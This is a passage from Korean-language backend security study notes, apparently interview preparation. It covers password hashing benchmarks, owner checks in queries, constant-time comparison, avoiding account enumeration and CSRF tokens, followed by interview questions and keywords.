    skf.generateSecret(new PBEKeySpec(password, salt, iterations, 256));   // 워밍업
    long t = System.nanoTime();
    skf.generateSecret(new PBEKeySpec(password, salt, iterations, 256));
    System.out.printf("%,7d회 → %.1f ms%n", iterations, (System.nanoTime() - t) / 1e6);
}
// 1,000회 → 1.6 ms / 10,000회 → 22.4 ms / 100,000회 → 140.2 ms / 600,000회 → 864.4 ms
```

### 소유자 확인을 조회 조건에 넣기

```java
// 나쁜 예 — 가져온 뒤 비교하면 빠뜨리기 쉽다
Order order = orderRepository.findById(id).orElseThrow();
if (!order.getUserId().equals(user.getId())) throw new AccessDeniedException();

// 좋은 예 — 조회 자체에 소유자를 넣으면 빠뜨릴 수가 없다
Order order = orderRepository.findByIdAndUserId(id, user.getId())
        .orElseThrow(() -> new OrderNotFoundException(id));
```

### 상수 시간 비교

```java
// 토큰·서명 비교에는 항상 이것을 쓴다 (비용이 거의 없다)
byte[] expected = hmac.doFinal(message);
byte[] actual = Base64.getUrlDecoder().decode(signaturePart);
if (!MessageDigest.isEqual(expected, actual)) {
    throw new InvalidTokenException("서명이 맞지 않는다");
}
```

### 계정 열거를 막는 로그인 응답

```java
// 실패 사유를 구분하지 않는다 — 아이디가 없어도, 비밀번호가 틀려도 같은 응답
public LoginResponse login(String email, String rawPassword) {
    Optional<User> found = userRepository.findByEmail(email);
    if (found.isEmpty() || !encoder.matches(rawPassword, found.get().getPassword())) {
        throw new BadCredentialsException("아이디 또는 비밀번호가 올바르지 않습니다");
    }
    return LoginResponse.from(found.get());
}
```

> 위 코드에도 미묘한 문제가 있다. **아이디가 없으면 해시 검증을 건너뛰어 응답이 빨라진다.** 엄밀하게는 사용자가 없어도 더미 해시를 한 번 검증해 시간을 맞춘다.

### CSRF 토큰을 쓰는 쪽

```html
<!-- 서버가 발급한 토큰을 폼에 실어 보낸다. 공격자는 이 값을 읽을 수 없다 -->
<form method="post" action="/transfer">
  <input type="hidden" name="_csrf" th:value="${_csrf.token}">
  <input name="amount">
</form>
```

---

## 6. 면접 정리

### 자주 나오는 질문

#### 기본 질문

1. **인증과 인가는 어떻게 다른가?**

    * 핵심 키워드: 누구인가 vs 무엇을 해도 되는가 · 401 vs 403 · 순서

2. **비밀번호를 어떻게 저장해야 하는가?**

    * 핵심 키워드: 느린 해시 · 솔트 · BCrypt/Argon2 · 실측 초당 258만 회

3. **솔트는 왜 필요한가?**

    * 핵심 키워드: 레인보우 테이블 · 같은 비밀번호 같은 해시 · 비밀이 아니다

4. **CORS는 무엇이고 왜 오류가 나는가?**

    * 핵심 키워드: 동일 출처 정책 · 브라우저가 차단 · 서버는 정상 처리 · 프리플라이트

5. **CSRF는 어떤 공격이고 어떻게 막는가?**

    * 핵심 키워드: 쿠키 자동 전송 · 요청이 이미 나감 · CSRF 토큰 · `SameSite`

#### 꼬리 질문

1. **SHA-256으로 저장하면 왜 부족한가?**

    * 핵심 키워드: 초당 2,580,440회 · 8자리 303.7시간 · GPU면 더 빠름

2. **반복 횟수는 어떻게 정하는가?**

    * 핵심 키워드: 로그인 지연 허용치 · 초당 로그인 수 × CPU · OWASP 60만 회 · 레이트 리밋

3. **CORS를 막으면 CSRF도 막히는가?**

    * 핵심 키워드: 응답 읽기 vs 요청 발생 · 이미 처리됨 · 별개의 대책

4. **REST API에도 CSRF 방어가 필요한가?**

    * 핵심 키워드: 쿠키 인증이면 필요 · Bearer 헤더면 불필요 · 자동 전송 여부

5. **`/orders/{id}` API에서 가장 흔한 보안 실수는?**

    * 핵심 키워드: 소유자 확인 누락 · Broken Access Control · 조회 조건에 포함 · 404로 숨기기

### 30초 답변

> **인증은 "누구인가", 인가는 "무엇을 해도 되는가"** 이고 각각 401과 403으로 응답합니다. 비밀번호는 **일부러 느린 해시**로 저장해야 하는데, 실측해 보니 SHA-256은 **초당 258만 회**라 8자리 비밀번호가 303시간이면 전부 뚫렸습니다. PBKDF2 60만 회를 걸면 같은 계산이 **223만 배** 느려져 공격자가 초당 1회밖에 시험하지 못합니다.

### 핵심 키워드

`인증 vs 인가` · `401 vs 403` · `느린 해시` · `PBKDF2` · `BCrypt` · `Argon2id` · `솔트` · `레인보우 테이블` · `레이트 리밋` · `Broken Access Control` · `동일 출처 정책` · `프리플라이트` · `Access-Control-Max-Age` · `CSRF 토큰` · `SameSite` · `상수 시간 비교` · `계정 열거`

### 이어서 볼 주제

* **쿠키 · 세션 · JWT** — 여기서 검사하는 신원 증표가 어떻게 만들어지고 실려 오는지.
* **REST와 API 설계** — 401·403·404를 어떤 기준으로 나눠 응답할지.
* **HTTP · TCP 네트워크** — 프리플라이트가 추가하는 왕복 비용의 정체.
* **Spring MVC 요청 흐름** — 필터와 인터셉터가 어느 지점에서 도는지.
* **AOP · Proxy와 Transactional** — `@PreAuthorize`가 프록시로 동작하는 원리와 self-invocation 함정.
